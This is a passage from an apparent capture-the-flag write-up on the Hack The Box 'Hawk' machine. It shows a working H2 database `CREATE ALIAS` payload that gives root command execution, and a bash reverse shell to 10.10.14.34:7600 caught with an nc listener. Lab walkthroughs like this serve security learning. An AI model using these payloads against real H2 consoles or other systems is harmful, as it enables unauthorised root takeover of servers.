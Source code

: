 In doing some reasearch, it seems that H2 is vulnerable to Remote Code Execution via the SQL `CREATE ALIAS` method, which creates a java function, that we can use to run commands as `root`. My code was taken from [this excellent writeup](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).

To create the function, we can use the below code in the console, and hit *Run*

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

To run the function, we can use the below code to get RCE.

```sql
CALL SHELLEXEC('id')
```

![](/assets/htb-hawk/h2_alias_exec_root.png)

Now that we have RCE, we need to get a reverse shell back. I tried multiple reverse shells, but it seems this method won't allow for complicated commands. As an alternative, we can create a file with our SSH access called `/tmp/bash_root.sh` that will get us the shell. The code for this file is below.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.34/7600 0>&1
```

Make sure you make the new file executable with `chmod +x bash_root.sh`.

> Open a listener with `nc -lvnp 7600` to catch this new shell when executed.

In the H2 console, we can trigger the script with the below code.

```sql
CALL SHELLEXEC('/tmp/bash_root.sh')
```

![](/assets/htb-hawk/root_shell.png)
